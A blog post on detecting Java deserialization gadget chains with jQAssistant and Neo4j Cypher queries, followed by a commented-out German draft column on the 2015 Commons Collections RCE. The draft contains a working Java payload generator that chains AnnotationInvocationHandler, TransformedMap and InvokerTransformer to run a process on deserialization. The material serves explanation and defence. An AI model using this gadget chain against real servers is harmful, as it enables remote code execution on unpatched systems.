 = Finding Security Vulnerabilities with Cypher and Neo4j

In this blog post I want to demonstrate how Neo4j and open source tools like http://jqassistant.org/get-started[jQAssistant] can be used to detect vulnerabilities in software systems.
Such issuses are usually based on certain execution patterns of code, which individually are harmless, but become critical when combined.

As an example I want to use the Deserialization Vulnerability that was hot news in November 2015.
I'd like to show you how you can test yourself for any combination of libraries, if similar issues can be triggered.

== The Java Deserialization RCE Vulnerability

At the beginning of November a wave of security alerts were raised in the Java ecosystem.
A large number of application servers, CI setups and other systems were reported to exhibit a remote code execution issue.

This issue is based upon the unchecked deserialization of untrustworthy user supplied data into Java objects.
During/after the deserialization process, methods were executed on objects resulting from that data which would eventually lead to arbitrary code execution on the JVM
and even on the host system (via `Runtime.exec`).

The issue was first presented by Chris Frohoff and Gabriel Lawrence already in January 2015 at AppSecCali2015.

It is built upon serializing an instance of a JDK-class (`AnnotationInvocationHandler`) which happens to call methods on the deserialized data in its `readObject` method.
This fact was combined with the ability of the _Apache Commons Collections_ project's ability to wrap collection classes in transformer facilities.
One of which (`InvokerTransformer`) can be configured to dynamically use methods for the value transformations using reflection on the JVM.
Combined with Java's ability to run operating system or other commands on the host machine via `Runtime.exec` it opens the door to arbitrary code execution.

Many Java servers accept serialized Java objects over the wire and deserialize that data within their process.
This happens for protocols like RMI, JMS and JMX but also often for custom RPC and other protocols.

Java code running on a server is not subject to the JVM security manager sandbox by default.
That's why this code execution is not protected against automatically.

But due to the complexity of the setup and the less pronounced presentation of the issue, it was mostly ignored by other researchers and the public.

Only in late October Code White researcher Matthias Kaiser, demonstrated in detail how to remoteley execute code on an Atlassian Bamboo installation.
This was picked up by Steve Breen who demonstrated similar vulnerabilities with other popular application servers (e.g. WebLogic, IBM WebSphere, JBoss, Jenkins, OpenNMS).
Without notifying the vendors of these products, he wrote a quite polemic blog post on the subject, which was quickly picked up by news outlets.

Most of the mentioned products and projects have released fixed versions of their software but there are certainly still a lot of vulnerable installations running.

== The Vulnerability Pattern

The basic pattern of this vulnerability is pretty straightforward.
It is more or less a long execution chain, which starts with an class that is serializable (i.e. transitively implements `java.io.Serializable`) and also contains a `readObject` method.
The chain ends with a call to `java.lang.reflect.Method.invoke()`.

Within that chain you have invocations either directly on target methods or on methods on interfaces / base-classes that are then implemented by methods transitively leading to the expected chain end.

This is a visual representation:

image::../img/model_arrows.jpg[]

In a graph model you can represent code as a graph with Nodes for _packages, classes, interfaces, methods, fields, parameters_ and Relationships for _inheritance, delegation, invocation, read- and write operations_.

In such a model then declaring the start- and end-method becomes straightforward and the arbitrary long execution-chain turns into a shortest-path operation.

Fortunately there are tools that provide this out of the box. Meet jQAssistant.

In my first encounter with Neo4j in 2008 I experimented with loading the JDK class library into Neo4j using the aforementioned model, even without Cypher this was really fast and fun to play with.
Years later I had a long conversation with my friend Dirk Mahler about software analytics with graphs, around code-quality, software-erosion, architectural rules and the lack of flexibility in commercial tools.

Our discussions eventually led to the creation to the open-source project jQAssistant, which is a software analytics toolkit built upon Neo4j, Cypher and an extensible plugin system.
Basically it uses plugins to parse information not only from source code but also many other sources (build-files, database-metadata, descriptors, config-servers and many more).
The initial graph model from that raw data is then enriched using provided concepts and custom techncial (e.g. Service,Test,UI-Component) and business (e.g. Order-Management, Recommendation-Engine, User-Profile) concepts. 
In most cases these are applied as node-labels representing higher level concepts but can also be more complex graph structures.

Based on the enriched raw graph data, you can compute metrics and output reports for your software project.
But most interestingly you can create your own architectural constraints or other rules that the entirety of your project should adhere to.
If the constraints return offending violations, then those are reported and your project build can be made to fail.

All concepts, constraints, metrics and reports are declared as Cypher statements, either in self-documenting text documents or XML descriptors.
Each of them can depend on others, so during their application requirements are automatically resolved and you only run the minimal set of Cypher statements necessary.

You can use the full richness of Cypher to match patterns, compute cardinalities or compare collections of elements.

More details about jQAssitant can be found on the http://jqassistant.org[project site], in http://jqassistant.org/blog[dedicated blog posts] and http://jqassistant.org/dcos[the extensive documentation].

Now let's see how we can use this toolset to find security vulnerabilities in our code.

image::../img/jqa_model[]

== Locate the Pattern using jQAssistant and Cypher


After http://jqassistant.org/download[downloading jQAssistant], you can simply scan a folder containing the relevant JAR-files.
In our case the `rt.jar` from the JDK and the `commons-collections.jar` from Apache Commons Collections.
For your own use-case it makes sense to scan the combination of jars you use in your application-server and/or project.

----
bin/jqassistant.sh scan -f lib/*.jar
----

If you just want to explore the scanned data, you run the Neo4j server with:

----
bin/jqassistant.sh server
----

First, let's think about what we're looking for.
We discussed it above in prose.
What would it look like as Cypher statements using the jQAssistant Java-plugin graph-model.

If we start with the endpoints of our vulnerability execution chain:

.Serializable classes that implement `readObject` (393 classes)
[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]-(class),
      (class)-[:DECLARES]->(m:Method {name:"readObject"})
RETURN count(*);
----

Calls of the method `java.lang.reflect.Method.invoke()`: (258 calls)
[source,cypher]
----
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(m:Method {name:"invoke"})
RETURN size(()-[:INVOKES]->(m)) as invocations;
----

To enrich our existing model, so that is more suitable for scanning across jars and along method overrides we need to run two additional concepts.
Both of which are provided by the Java-Plugin but not applied by default.

----
bin/jqassistant.sh analyze -concepts classpath:Resolve,java:MethodOverrides
----

////
match (t:Type) where t.fqn =~ "org.apache.commons.collection.*"
match (m:Method)<-[:DECLARES]-(t:Type)-[:EXTENDS|IMPLEMENTS]->(t0)-[:DECLARES]->(m0)
where m.name = m0.name
merge (m)<-[:OVERRIDDEN_BY]-(m0)
return count(*);
////

Now we have everything in place to determine the transitive connection between deserializing objects which from within `readObject` call `Method.invoke()` over several intermediate steps.

[source,cypher]
----
MATCH (:Interface {fqn:"java.io.Serializable"})<-[:EXTENDS*]->(serialized:Class)-[:DECLARES]->(readObject:Method {name:"readObject"})
MATCH (:Class {fqn:"java.lang.reflect.Method"})-[:DECLARES]->(invoke:Method {name:"invoke"})

MATCH path = shortestPath((readObject)-[:INVOKES|:OVERRIDDEN_BY*]->(invoke)) 

RETURN serialized,path
ORDER BY length(path) ASC LIMIT 10;
----

Here you can see one of the many paths that represent a potential vulnerability and could / should be examined more closely.

image::../img/jqassistant_deserialize_vulnerability_example1.jpg[]

This was just one example how software analytics with Neo4j can be used to immediately acquire highly valuable information about your software projects.

There are many more applications:

* manage consistency of transitive library dependencies of a multitude of projects
* infer software modules from an unstructured codebase
* incrementally improve software quality by using team-provided language or architectural rules
* assert synchronization between database (or other) metadata and related code
* structural search of "interesting" code structures
* generate graph visualizations with virtual nodes and relationships that aggregate lower level metrics and dependencies
* manage service or component visibility and discoverability even in absence of a module system
* enrich static structural information with runtime trace information, heap structures, test execution results, build information, component interactions to discover new insights or support decisions for your team or yourself
* render information derived from the graph as interactive graphs, charts, diagrams, city-maps with drill-down and comparison abilities

If you have other cool ideas of what you could achieve by treating information around software projects as a graph, mailto:michael@neo4j.com[please let me know].
You can also join our http://groups.google.com/group/graph-software-analytics[graph-software-analytics google group] and share your ideas or related projects there.

////
= Operation Sorglos: Deserialisierung in Java
Michael Hunger <javaspektrum@jexp.de>

== Einem geschenkten (Trojanischen) Gaul schaut man besser ins Maul

Im November 2015 hat eine kritische Sicherheitslücke die Java- und IT-Welt aufgewühlt. 
Zum Teil wurde sie als "kritischer als Heartbleed" eingeschätzt.
In der heutigen Kolumne will ich sie etwas näher beleuchten und die Hintergründe darstellen.

== Eine Geschichte in 3 Akten

Interessanterweise wurde der Angriffsvektor schom Ende Januar auf der AppSecCali2015 Konferenz von Gabriel Lawrence und Chris Frohoff von Qualcom im Rahmen einer umfangreicheren Präsentation zum Thema "Angriffe durch ungesicherte Deserialisierung von Nutzerdaten" ("Marshalling Pickles – how deserializing objects will ruin your day") präsentiert.

====
Der Angriff nutzt den ungesicherten Aufruf von Methoden auf deserialisierten Daten während oder nach der Deserialisierung aus.
Wenn die transitiv aufgerufenen Zielmethoden, potentiell Schadcode ausführen können, ist das Ziel der Angreifer erreicht.

Die serialisierten Daten wurden *in diesem Beispiel* mittels Hilfsklassen der Apache Commons Collections Bibliothek präpariert, 
welche die transparente Transformation von Werten in Containerobjekten, hier sogar dynamisch durch Nutzung von Reflection erlauben.
====

Dabei wurde neben dem Angriff auch ein Tool gezeigt, dass entsprechende Schad-"Nutz"-daten erzeugen kann.
Da diese Angriffsmöglichekeit aber eher unspektakulär neben anderen Programmiersprachen und Ansätzen dargestellt wurde, 
scheint er der Aufmerksamkeit der Öffentlichkeit und auch anderer Sicherheitsexperten entgangen zu sein.

Erst ein sehr interessanter Vortrag von Matthias Kaiser (Code White, Ulm) Ende Oktober an der Ruhr Uni Bochum, ging detaillierter auf die Sicherheitslücke ein 
und demonstrierte die Ausnutzbarkeit live am Beispiel einer (seither gefixten) Version von Atlassian Bamboo.

Das spornte Steve Breen (Foxglove Security) an, diese Sicherheitslücke genauer unter die Lupe zu nehmen und zu zeigen, dass häufig genutzte Java Web- und Applicationserver (u.a. WebLogic, IBM WebSphere, JBoss, Jenkins, OpenNMS) anfällig für diesen Angriff waren.
Dieser auch etwas theatralische Artikel hat dann die weltweite "Welle des Entsetzens" ausgelöst, die wir im November erlebt haben.
Wie zu erwarten war, haben sich viele der nachfolgenden Berichterstatter nicht die Mühe gemacht, die Hintergründer zu verstehen und akkurat zu berichten.
Leider hat Steve Breen es nicht für nötig gehalten, die betroffenen Produkte vor der Veröffentlichung seines Artikels zu benachrichtigen, was normalerweise bei solchen erstmalig nachgewiesenen, kritischen Sicherheitslücken (Zero-Day-Exploit) Usus ist.

Zum einen nehmen sie auf verschiedene Weise, serialisierte Java-Objekte über das Netzwerk entgegen und deserialisieren sie ungesichert.
Desweiteren sind Bibliotheken im Klassenpfad enthalten, die zur Ausnutzung dieses Verhaltens genutzt werden können.

Dieser Angriff konnte nur verhindert werden, indem man die entsprechenden Klassen (z.B. `InvokerTransformer`) aus der Jar-Dateien der Bibliotheken entfernt.

Mittlerweile wurden aktuelle Versionen (3.2.2, 4.1) von Apache Commons Collections veröffentlicht, die die Serialisierbarkeit dieser Klassen standardmässig abschaltet, aber sie in vertrauenswürdigen Umgebungen durch eine System-Property wieder aktivieren lässt.
Auch für andere Bibliotheken wie Groovy (2.4.4) und Spring (4.1.9, 4.2.3) sind Versionen verfügbar, die nicht mehr für diesen Angriff genutzt werden können.

Da Java-Deserialisierung, besonders auch von Daten, die über das Netzwerk empfangen werden, in der Java Welt gang und gäbe ist (dazu später mehr), 
ist es sehr wahrscheinlich, dass dies nicht die einzige schadhafte Kombination darstellt.

Leider wurde bisher noch nicht genügend Augenmerk auf die Absicherung des Deserialisierungs-Mechanismus gelegt.
Es bleibt zu hoffen, dass Oracle selbst dafür sorgt, dass während der Deserialisierung selbst, der transitive Aufruf bestimmter, potentiell gefährliche Methoden abgeblockt wird. Aber selbst nach einer erfolgreichen Deserialisierung sollte man Daten, die aus nicht vertrauenswürdigen Quellen stammen, und plötzlich als aktives Objekt in der eigenen JVM leben, mit entsprechender Vorsicht begegnen.

Zum Glück muss man nicht nur auf Sicherheitsexperten vertrauen, sondern kann sich mit einigen quelloffenen Tools selbst ein Bild davon verschaffen, 
ob die eigene Infrastruktur potentiell gefährliche Kombinationen enthält.

Die Stimmen, die der Apache Bibliothek die Schuld an allem gaben haben natürlich nicht aufgepasst. Zwar machen die dort vorhandenen Klassen es leichter die Sicherheitslücke auszunutzen, aber das Grundproblem liegt am sorglosen Umgang mit Daten aus nicht vertrauenswürdigen Quellen.

Im Statement der Apache Foundation ist auch genau das nachzulesen:

____
It is not Apache Commons Collections that is unsafe, it is applications which use Java Serialization in an unsafe way.

If anybody asks you whether an application is unsafe because of Apache Commons Collections, 
explain to them that deserializing untrusted data is unsafe, not the presence of generally useful libraries.
____

== Art des Angriffs

Der Angriff gehört zu einer noch relativ unerforschten, neuen Klasse von Ansätzen, die davon ausgehen, dass ungesicherte Deserialisierung von Objekten, die von ausserhalb kommen, eine weitverbreitete Sicherheitslücke darstellt. 
Dabei ist nicht die Deserialisierung ein Problem, sondern dass sie nicht genügend gegen böswillige Nutzlast abgesichert ist.
Wie bei vielen Angriffen werden auch hier mehrere Konstrukte kombiniert, die nur gemeinsam dazu führen, dass man durch die Deserialisierung eines Objektes freien Zugriff auf Reflection-Aufrufe bekommt.
Mit denen hat man man natürlich vollen Zugriff auf beliebige Klassen und Methoden innerhalb der JVM, besonders aber durch Aufrufe von `Runtime.getRuntime().exec()` auch mit den Rechten des Benutzers auf dem Recher auf dem die Java Anwendung läuft.

Eigentlich ist die JVM ja für ihre Sandbox bekannt, leider diese ist aber nur zwangsweise bei Applets und Webstart-Anwendungen aktiv.
Die meisten Java-Server und Desktopanwendungen laufen ohne `SecurityManager` und können somit beliebige Operationen auf der Maschine ausführen.
Meist wird das mit Leistungseinbussen und der Komplexität der Konfiguration von `Permissions` für den Security-Manager begründet.
Abgesicherter Bytecode muss auch in signierten Jars vorliegen, so dass sichergestellt werden kann, dass niemand zwischenzeitlich Veränderungen am Bytecode vorgenommen hat.

Das etwas skurrile Konstrukt das für das Ausnutzen dieser Sicherheitslücke notwendig ist, beleuchten wir gleich etwas im Detail.

Zuerst aber noch etwas zu den Grundlagen der (De-)Serialisierung in Java.

== Serialisierung in Java

Seit den ersten Versionen von Java war es bequemlicherweise leicht möglich, Java Objekte zu serialisieren, indem man es in einen ObjectOutputStream schreibt, dessen Ausgabe dann entweder als Datei auf der Festplatte, Datenstrom im Netz oder in einem Byte-Array landet.

Serialisierbar ist ein Objekt, wenn es direkt oder indirekt `java.io.Serializable` implementiert und all seine nicht-transistenten Felder entweder primitiv oder auch serialisierbar sind.
Es ist anzuraten für die Handhabung der Kompatibilität zwischen Versionen von Klassen ein Long-Feld namens `serialVersionUID` anzulegen, dessen Inhalt geändert werden muss, wenn sich die Klasse inkompatibel zu Vorgängerversionen geändert hat.

Die zweite Anforderung kann mittels spezieller Methoden, `writeReplace` und `writeObject` umgangen werden.
Dabei kann man in der `writeObject`-Methode die Serialisierung selbst im Einzelnen kontrollieren, z.B. um eine effizientere Speicherung von aufwendigen Datenstrukturen vorzunehmen. Bei `writeReplace` kann man statt des aktuellen Objektes, eine andere Instanz zur Serialisierung nominieren.

Bei der Serialisierung wir der Objektbaum rekursiv durchgegangen und beginnend beim Wurzelobjekt bis zu allen primitiven Feldern Repräsentationen als Bytes in den Datenstrom geschrieben. Falls es sich um einen Objektgraphen mit Zyklen handelt werden für schon gesehene Objekte nur noch Marker geschrieben.

Hier sehen wir die Serialisierung eines einfachen Objektes und die Binärdarstellung des Ergebnisses, in dem man Klassennamen der Instanzen und ihre Inhalte sehr schön erkennen kann.

[source,java]
----
static class Magazine implements Serializable {
    String title;
    LocalDate date;
    int pages;
}

public static void main(String[] args) throws Exception {
    Magazine javaSpektrum = new Magazine("JavaSpektrum 6/2015", 
                                 LocalDate.of(2015,11,20), 66);
    ObjectOutputStream oos = new ObjectOutputStream(
                          new FileOutputStream("magazin.ser"));
    oos.writeObject(javaSpektrum);
    oos.close();

    Magazine gelesen = (Magazine)new ObjectInputStream(
	                   new FileInputStream("magazin.ser"))
	                   .readObject();

    assert gelesen.title.equals(javaSpektrum.title) && 
           gelesen.date.equals(javaSpektrum.date) &&
           gelesen.pages == javaSpektrum.pages;
}
----

.hexdump -C magazin.ser 
----
00000000  ac ed 00 05 73 72 00 22  65 78 61 6d 70 6c 65 2e  |....sr."example.|
00000010  53 65 72 69 61 6c 69 7a  61 74 69 6f 6e 54 65 73  |SerializationTes|
00000020  74 24 4d 61 67 61 7a 69  6e 65 44 5d 53 78 5d 43  |t$MagazineD]Sx]C|
00000030  95 e8 02 00 03 49 00 05  70 61 67 65 73 4c 00 04  |.....I..pagesL..|
00000040  64 61 74 65 74 00 15 4c  6a 61 76 61 2f 74 69 6d  |datet..Ljava/tim|
00000050  65 2f 4c 6f 63 61 6c 44  61 74 65 3b 4c 00 05 74  |e/LocalDate;L..t|
00000060  69 74 6c 65 74 00 12 4c  6a 61 76 61 2f 6c 61 6e  |itlet..Ljava/lan|
00000070  67 2f 53 74 72 69 6e 67  3b 78 70 00 00 00 42 73  |g/String;xp...Bs|
00000080  72 00 0d 6a 61 76 61 2e  74 69 6d 65 2e 53 65 72  |r..java.time.Ser|
00000090  95 5d 84 ba 1b 22 48 b2  0c 00 00 78 70 77 07 03  |.]..."H....xpw..|
000000a0  00 00 07 df 0b 14 78 74  00 13 4a 61 76 61 53 70  |......xt..JavaSp|
000000b0  65 6b 74 72 75 6d 20 36  2f 32 30 31 35           |ektrum 6/2015|
000000bd
----

Wie man sehen kann, beginnt der Binärcode immer mit dem Marker `ac ed 00 05`, die man auch nutzen kann, um ggf. im Datenstrom der eigenen Java-Server nach potentiell serialisierten Java-Objekten zu suchen.
Falls diese als base-64 formatierte Daten gesendet werden, beginnt der Datenblock dann mit `rO0`.

Soweit keine Überraschungen. Jetzt zur Deserialisierung, die eigentlich ähnlich einfach abläuft.

. Aus einem `ObjectInputStream` liest man die geschriebenen Objekte. 
. Von diesen werden Instanzen erzeugt, ohne den Konstruktor aufzurufen!
. Dann werden rekursiv wieder die Felder gelesen, ggf. weiter Objekte instanziiert. 
. Falls irgendwo durch den Wechsel der Klassensignatur oder der `serialVersionUID` eine Inkompatibilität ergibt, bricht das Laden mit einem `InvalidClassException` (oder einer anderen Exception) ab.

Wie beim Schreiben der Objekte, kann die Deserialisierung mittels eigener Methoden gesteuert werden.
Mit `readResolve` kann man statt des gelesenen Objektes ein anderes zurückgeben, was z.b. bei Singletons wie Enums genutzt wird.
Die Implementierung von `readObject` kann das Lesen des Objektes wieder voll kontrollieren, so z.B. auch nachgelagerte Initialisierungen vornehmen.

Und dort fängt der Spass an... 

Wenn während der Deserialisierung, noch bevor man die Objektinstanz zurückbekommt, aktiv Methoden auf Feldern der Klasse aufgerufen werden, deren Inhalt gerade erst aus einer nicht-vertrauenswürdigen Quelle wiederhergestellt wurde, kann man sich vorstellen, dass Dinge passieren, die man vermeiden möchte.

Im einfachsten Fall gibt es einen Fehler während dieses Zugriffs und die Methode die die Deserialisierung veranlasst hat (und ggf der Thread) werden abgebrochen. Das kann schon für eine kleine Denial-of-Service Attacke ausgenutzt werden. 
Desweiteren können grosse Datenmengen oder Endlosschleifen verursacht werden (z.B. durch Selbstreferenzen die zu rekursiven Aufrufen führen).
Aber auch das ist noch nicht schlimm. 

Freien Zugriff auf die JVM gibt es, wenn Inhalte der Felder genutzt werden können, um frei Operationen innerhalb der JVM auszuführen, z.B. mittels Reflection, Proxies oder `javax.ScriptEngine`s.

== Anwendungsbereiche für Serialisierung

Ganz am Anfang, wurde Serialisierung in Java dafür genutzt, den Zustand einer Anwendung zu persistieren, daher sind kurioserweise viele AWT- und Swing-Klassen serialisierbar und mit diversen Details darüber versehen. 
Bald lag der Fokus aber auf dem Serialisieren von komplexen Daten z.B. um sie auf Festplatte oder in Datenbanken als Blob zu speichern oder über das Netzwerk zu transportieren oder als Methodenparameter und Rückgabewerte für RPC via RMI zu nutzen.
Bei all diesen Ansätzen kann man der Anwendung präparierte Daten unterschieben, über das (offene) Netzwerk geht es aber am einfachsten.
Und Objekt-Serialisierung wird bei diversen Netzwerkprotokollen im Java-Umfeld eingesetzt: RMI, RMI-über-HTTP, JMX, JMS, Spring-Invoker, teilweise für Http-Cookies usw.
Daher gibt es in den meisten Server-Anwendungen genügend Einfallstore, um gemeingefährliche Daten einzuschleusen.

Um eine solche Attacke erfolgreich auszuführen, benötigt man also die folgenden Zutaten.

== Erfolgsrezept

Wie in der Einleitung schon erläutert, benötigt man für diese Art von Angriff eine Kombination von drei Verhaltensweisen, die gemeinsam zum Erfolg führen.

. Muss es die Anwendung serialisierte Objekte entgegenzunehmen und diese ohne weitere Prüfung zu deserialisieren.
. Zum zweiten muss eine zu deserialisiere Klasse vorliegen, die `readObject` implementiert und in der Methode auf den soeben deserialisierten eigenen Feldern Methode aufruft
. Die wiederhin transitiv über mehrere Ecken potentielle gefährliche Methoden aufrufen, wenn möglich mit den präparierten Nutzdaten

Im von Matthias Kaiser gezeigten Beispiel wurde ein Servlet von Atlassian Bamboo genutzt, das Nutzdaten deserialisiert.
Die serialisierbare `TransformedMap`, konfiguriert einem `InvokerTransformer` aus Apache Commons Collections liefert uns die Schadmethode - den dynamischen Aufruf von `Method.invoke()`, die sogar mit ihren Parametern serialisierbar sind.
Damit benötigt man nur noch ein deserialisierbares Objekt, dass in seinem `readObject` auf einem eigenen `Map`-Feld die Methode `Map.Entry.setValue()` aufruft, um den genannten Transformer zu triggern. 
Das stellt uns Sun, mit dem `AnnotationInvocationHandler` zur Verfügung, der im `readObject` prüft, ob die de-serialisierte Ziel-Annotationsklasse immer noch denselben Elementtyp für ihr Attribute hat, die in einer ebenfalls de-serialisierten `Map`!! gespeichert sind. 
Falls nicht, wird mittels `Map.Entry.setValue()` ein ExceptionProxy statt des Originaltyps gesetzt, was dann unseren gemein vorkonfigurierten `InvokerTransformer` triggert.

Die Serialisierung der genannten Konstruktion sieht im konkreten so aus, als dynamisch aufzurufende Methode, wurde natürlich `Runtime.getRuntime().exec()` gewählt, um den möglichen Schaden zu maximieren:

.Demo zum Starten eines OSX-Calculators mittels ProcessBuilder beim Deserialisieren
[source,java]
----
public class PayloadGenerator {
    public static void main(String[] args) throws Exception {
        final String[] execArgs = new String[] {
                "/Applications/Calculator.app/Contents/MacOS/Calculator" };

        // invoking new ProcessBuilder(execArgs).start()
        final Transformer transformers = new ChainedTransformer(
            new ConstantTransformer(ProcessBuilder.class),
            new InstantiateTransformer(new Class[]{String[].class},new Object[]{ execArgs }),
            new InvokerTransformer("start", null,null));

        // preparing fieldMap for @Target.value == "value"
        String annotationFieldName = Target.class.getDeclaredMethod("value").getName();
        final Map annotationFields = singletonMap(annotationFieldName,"foo");

        // decorating map with process starting transformers
        TransformedMap transformedMap =
                TransformedMap.transformingMap(annotationFields, null, transformers);

        // setting up AnnotationInvocationHandler with prepared instancedata to be serialized
        Class<?> type = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = type.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object handler = constructor.newInstance(Target.class, transformedMap);

        // serializing handler
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("transformer.ser"));
        oos.writeObject(handler);
        oos.close();

        // demonstrating deserialization starts calculator
        new ObjectInputStream(new FileInputStream("transformer.ser")).readObject();
    }
----

Ich habe, um das ganze etwas zu vereinfachen, dagegen `new ProcessBuilder(args).start()` aufgerufen, und den Code etwas vereinfacht.
Um zu zeigen, dass es vollkommen egal ist, ob die Deserialisierung erfolgreich ist, habe ich als Map-Instanz `Collections.singletonMap` benutzt, die unveränderlich ist,
also gar kein `Map.Entry.setValue()` zulässt.
D.h. obwohl der eigentliche `setValue` Aufruf fehlschlägt, wird der Transformer vorher noch ausgeführt und started den Calculator, wie man anhand des Stacktraces im Screenshot auch sehr schön sehen kann.

image::deserialize_vulnerability_demo.jpg[]

Die originalen Forscher stellten ein Tool (ysoserial) bereit, dem man nur noch den Unix-Shell-Befehl mitgeben musste, den man auf dem Server ausgeführt haben möchte, und welches dann den korrekten serialisierten Binärdump erzeugt.

.Beteiligte Klassen
[options=header]
|===
|Klasse| Zeile | Aufruf | in Methode | Link
| AnnotationInvocationHandler | 355 | Map.Entry.setValue | readObject |
http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/7u40-b43/sun/reflect/annotation/AnnotationInvocationHandler.java#356

| TransformedMap | 218 | transformer.transform | checkSetValue |
https://github.com/apache/commons-collections/blob/trunk/src/main/java/org/apache/commons/collections4/map/TransformedMap.java#L218

| AbstractInputCheckedMapDecorator.MapEntry | 201 | parent.checkSetValue | setValue |
https://github.com/apache/commons-collections/blob/trunk/src/main/java/org/apache/commons/collections4/map/AbstractInputCheckedMapDecorator.java#L201

| InvokerTransformer | 134 | method.invoke | transform |
https://github.com/apache/commons-collections/blob/trunk/src/main/java/org/apache/commons/collections4/functors/InvokerTransformer.java#L134
|===

== Schutzkreis

Wie kann man sich gegen solche Sicherheitslücken schützen?
Es ist ziemlich schwierig, weil die Verantwortung, sowohl bei Oracle als auch den Application-Server Herstellern liegt, die Deserialisierung von vertrauensunwürdigen Quellen besser abzusichern. 
